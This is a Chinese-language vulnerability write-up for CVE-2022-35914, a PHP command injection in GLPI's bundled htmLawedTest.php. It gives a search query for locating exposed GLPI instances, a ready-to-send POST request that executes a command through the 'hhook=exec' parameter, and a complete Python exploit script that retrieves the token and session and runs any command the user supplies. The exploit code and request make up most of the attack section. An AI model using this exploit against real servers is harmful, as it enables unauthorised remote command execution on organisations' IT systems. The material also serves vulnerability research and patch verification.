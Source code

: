 # GLPI htmLawedTest.php 远程命令执行漏洞 CVE-2022-35914

## 漏洞描述

GLPI是个人开发者的一款开源IT和资产管理软件。该软件提供功能全面的IT资源管理接口，你可以用它来建立数据库全面管理IT的电脑，显示器，服务器，打印机，网络设备，电话，甚至硒鼓和墨盒等。GLPI 10.0.2及之前版本存在安全漏洞，该漏洞源于htmlawed 模块中的 `/vendor/htmlawed/htmlawed/htmLawedTest.php` 允许 PHP 代码注入。

## 漏洞影响

```
GLPI 10.0.2及之前版本
```

## 网络测绘

```
title="GLPI"
```

## 漏洞复现

登录页面

![image-20221017171204621](images/202210171712679.png)

出现问题的文件为 **htmLawedTest.php，** 来源于第三方库 PHP Labware

![image-20221017171224096](images/202210171712160.png)

```
https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/
```

在 htmLawedTest.php 中接收参数并传入方法 htmLawed 中

![image-20221017171243880](images/202210171712972.png)

跟进文件 htmLawed.php 中

![image-20221017171259491](images/202210171712583.png)

```
if($C['hook']){$t = $C['hook']($t, $C, $S);}
```

这里可以看到参数均为用户可控参数，当控制参数 hhook 为 exec 和 text 为执行的命令时就导致了命令执行漏洞

![image-20221017171318915](images/202210171713976.png)

验证POC

```
/vendor/htmlawed/htmlawed/htmLawedTest.php
```

![image-20221017171343438](images/202210171713502.png)

![image-20221017171358385](images/202210171713454.png)

访问页面获取到 sid 与 token 后再发送请求包

```
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 88
Content-Type: application/x-www-form-urlencoded

token=a79cf121bde57fe0e3cc0f247f77961a&text=id&hhook=exec&sid=h1c0vk004dvulal5nj8i6en44e
```

![image-20221017171416286](images/202210171714358.png)

## 漏洞POC

- https://github.com/cosad3s/CVE-2022-35914-poc

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import argparse
from bs4 import BeautifulSoup
import requests
import sys
import re

requests.packages.urllib3.disable_warnings() 

RED = '\x1b[91m'
BLUE = '\033[94m'
GREEN = '\033[32m'
ENDC = '\033[0m'

banner="""  
  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _   
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |  
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_ 
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|  
"""

def main():
    print(banner)
    parser = argparse.ArgumentParser(description='CVE-2022-35914 - GLPI - Command injection using a third-party library script')
    parser.add_argument('-u', type=str, required=True, dest='url', help = "URL to test")
    parser.add_argument('-c', type=str, required=False, dest='cmd', default = "id", help = "Command to launch (default: id)")
    parser.add_argument('-f', type=str, required=False, dest='hook', default = "exec", help = "PHP hook function (default: exec)")
    parser.add_argument('--check', action="store_true", dest='check', help = "Just check, no command execution.")
    parser.add_argument('--user-agent', type=str, required=False, default="Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36", dest='user_agent', help = "Custom User-Agent")
    args = parser.parse_args()
    exploit(args.url, args.cmd, args.user_agent,args.check,args.hook)

def exploit(url,cmd,user_agent,check,hook):
    uri = "/vendor/htmlawed/htmlawed/htmLawedTest.php"
    headers = {'User-Agent': user_agent}

    session = requests.Session()
    response_part1 = session.get(str(url)+uri, verify=False, headers=headers)
    if (response_part1.status_code != 200):
        fail()
    
    soup = BeautifulSoup(response_part1.text, 'html.parser')
    if (soup.title.text.find("htmLawed") == -1):
        fail()

    if (check):
        print(GREEN + "[+] Server potentially vulnerable to CVE-2022-35914" + ENDC)
        sys.exit()

    # Prepare POST request
    token_value = soup.find_all(id='token')[0]['value']
    sid_value = session.cookies.get("sid")
    body = {"token":token_value,"text":cmd,"hhook":hook,"sid":sid_value}
    response_part2 = session.post(str(url)+uri, verify=False, headers=headers, data=body)
    parse(response_part2.text)

def parse(response):
    soup = BeautifulSoup(response, 'html.parser')
    raw = soup.find_all(id='settingF')[0]

    return_code_search_regex = "\$spec\: (.*)"
    found_return_code = re.search(return_code_search_regex, raw.text, re.DOTALL).group(1)

    output_search_regex = "\[xml:lang\] \=\> 0\n(.*)\n\)"
    found_output = re.search(output_search_regex, raw.text, re.DOTALL)
    print(GREEN + "[+] Command output (Return code: " + found_return_code + "):" + ENDC)
    if (found_output != None):
        raw_output = found_output.group(1)
        cleaning_regex = ".*\=\>"
        cleaned_output = re.sub (cleaning_regex, "", raw_output)
        print(cleaned_output)

def fail():
    print(RED + "[-] Server not vulnerable to CVE-2022-35914" + ENDC)
    sys.exit()

if __name__ == '__main__':
    main()
```

